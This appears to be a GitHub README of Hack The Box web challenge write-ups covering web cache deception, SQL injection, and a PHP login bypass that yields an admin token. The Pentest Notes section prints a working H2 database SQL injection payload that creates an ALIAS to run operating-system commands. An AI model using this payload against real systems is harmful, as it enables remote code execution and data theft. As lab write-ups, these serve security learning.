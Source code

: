 # Writeup_HTB_Web_Challenge
Write-up Web Challenge Hack The Box

## Table of Content
[CDNio](#cdnio)

[Pentest Notes](#pentest-notes)

[Insomnia](#insomnia)

## <a name="cdnio"></a> 	:triangular_flag_on_post: CDNio
Overview of the site have features: 
- register a new account with username, password, email
- search user profile

![image](https://github.com/user-attachments/assets/d621d82a-ce68-4e16-8f6a-0f4fc5fb9633)

![image](https://github.com/user-attachments/assets/d10678e2-f424-4a92-8b24-ab72c1205b6c)

We can see this web have api `/register` and `/profile`
![image](https://github.com/user-attachments/assets/0b63a3e3-e1d6-4a65-adc0-73ce8476e5a8)

Let's see source code

Noteworthy is this config file
![image](https://github.com/user-attachments/assets/eda95f81-341a-462b-b8a2-3ab544188c91)

`location ~* \.(css|js|png|jpg|jpeg|gif|ico|svg|woff|woff2|ttf|eot)$`
a regex allow all url have static extension

```
  proxy_cache cache;
  proxy_cache_valid 200 3m;
  ...
  add_header Cache-Control "public";   
```

and cache them in 3m for anyone read public. We can think of [web cache deception](https://portswigger.net/web-security/web-cache-deception) vulnerability

I have to test my hypothesis, api `/profile` have profile of user and admin. I will request to server `GET /profile/test.css`, if response returned is 200, it means the information has been cached

![image](https://github.com/user-attachments/assets/4ff05369-028c-4a92-bc58-70b5b82b92df)

If admin access `/profile/test.css`, profile admin also cache. But how to make admin access?
In folder bot have a `route.py` defined an api `/visit` request to url, line 20 will call `bot_thread()` method defined `utils/bot.py`

![image](https://github.com/user-attachments/assets/848fbe55-6ea4-4bc4-88dc-5fddd7a8345b)

`bot.py` will request to admin profile in server

![image](https://github.com/user-attachments/assets/188bb880-6461-462b-bba4-d43c119f0a66)

So, i send request uri `profile/test.css` via api `/visit`, uri will send to `bot.py` and get profile admin

![image](https://github.com/user-attachments/assets/dd358258-cb23-4d39-95c2-7d120bcff363)

Response 200 mean profile admin has been leak

![image](https://github.com/user-attachments/assets/47c10b6a-6468-442c-a422-1beb26b75c8a)

Get request to `profile/test.css` and done, receive flag

![image](https://github.com/user-attachments/assets/e12e788e-3746-4841-aef6-c36f49f0cf5e)

## <a name="pentest-notes"></a> 	:triangular_flag_on_post: Pentest Notes
Overview site, some feature:
- register, login

![image](https://github.com/user-attachments/assets/f8323701-3cd1-4b08-865f-15be739080b5)
![image](https://github.com/user-attachments/assets/1f1cfd74-b0d9-4c7a-b29e-8204d1381e34)

- list pentest, notes

![image](https://github.com/user-attachments/assets/63b1097a-c52f-4d0d-aa95-ddd078503e5a)
![image](https://github.com/user-attachments/assets/74c5f5a9-1c4d-4a25-a0ca-7f12b8a06198)

In page Note detail, we can see a parameter `name` 

![image](https://github.com/user-attachments/assets/0e306909-5323-4f44-82b3-df2fe236cb60)

Audit source, in `NotesController.java` param `name` insert to query

![image](https://github.com/user-attachments/assets/381adc91-3d7d-46de-b204-c04a1685701f)

This is SQL Injection vulnerability, we can insert query to leak data in database. 

Test the above hypothesis

![image](https://github.com/user-attachments/assets/14f2f8e5-67d0-4e0f-a92e-504e3840cf2e)

So, this web have SQL Injection, i will see schema of database to get data like table name, user. However, just NOTES table can access by query, and other tables can't get data

![image](https://github.com/user-attachments/assets/fa835a5e-9d5c-48b8-8aad-1e63cd9e6a6d)

Like table `TABLE_PRIVILEGES` i select to column in table but response 500. 
File pom.xml in source code, a dependency is h2.database, that mean this challenge use H2 database. I tried search [vulnerability about H2 DB](https://www.exploit-db.com/exploits/45506). This vulnerability about feature of database, build a ALIAS with java code to run shell in server. So, we can run java code via feature ALIAS of H2 database

I'm tried this payload, and we can pass parameter OS Command to RCE
``` java
SQL Injection' OR 1=0; CREATE ALIAS RCE AS '
    String execve(String cmd) throws java.io.IOException { 
        Process process = Runtime.getRuntime().exec(cmd); 
        java.io.InputStream inputStream = process.getInputStream(); 
        java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream("/app/target/classes/static/hola.html");
        byte[] buffer = new byte[1024]; 
        int bytesRead; 
        while ((bytesRead = inputStream.read(buffer)) != -1) { 
            fileOutputStream.write(buffer, 0, bytesRead);
        } 
        fileOutputStream.close(); 
        inputStream.close(); 
        return "Output written to /app/target/classes/static/hola.html";
    }'; -- -
```

![image](https://github.com/user-attachments/assets/c7e0a44d-60bf-4fab-b857-82f2954d36c5)

And now, we can call ALIAS and pass OS Command

![image](https://github.com/user-attachments/assets/7994e97e-d112-4f69-8654-3c9d11e6888e)

![image](https://github.com/user-attachments/assets/edd7398a-a39a-43c0-863d-679ba74b0aa5)

![image](https://github.com/user-attachments/assets/56e60c11-77ea-442c-a851-fb6e98c0d76b)

## <a name="insomnia"></a> 	:triangular_flag_on_post: Insomnia

This challenge just have feature signup, signin and token jwt for authentication

![image](https://github.com/user-attachments/assets/4e00bc71-8313-432a-af82-59c91ee0281b)
![image](https://github.com/user-attachments/assets/c8da7d35-c659-413f-a16c-309aa2c27247)

Let's audit source see if there is anything interesting

![image](https://github.com/user-attachments/assets/9b036fbc-26ad-41d6-bf03-2069b8cd2845)

`ProfileController.php` in folder `app` decode from token and get `username=administrator` will return flag 

![image](https://github.com/user-attachments/assets/db96f2da-55f7-43e7-b512-4689b8e0ff74)

However, file `entrypoint.sh`, both JWT_SECRET and password has been defined random, which means it's almost impossible to fake admin token

In `UserController.php` file have function `login()`, there is a piece of code that should notice

![image](https://github.com/user-attachments/assets/296128da-afdb-49e7-9db3-e7222ca36b34)

``` php
      if (!count($json_data) == 2) {
          return $this->respond("Please provide username and password", 404);
      }
```
This patch filter data login of user inclusion username, password. `count($json_data)` return number of rows.

Suppose `count($json_data)=2` => !2=0(false) and 0 alway difference 2. That mean above condition incorrect. So, input data always bypass this patch, it's [Authentication Vulnerability](https://portswigger.net/web-security/authentication).

``` php
      $query = $db->table("users")->getWhere($json_data, 1, 0);
```

This line of code get data from `users` by $json_data condition. We can request `username = administrator`, it's will bypass filter and get data with condition username = administrator

![image](https://github.com/user-attachments/assets/464bea95-a046-4342-9193-ba5cd2ff8ec3)

Just login with username, token admin will return

![image](https://github.com/user-attachments/assets/234e9717-54aa-48d9-bf28-cf43d8134dd7)
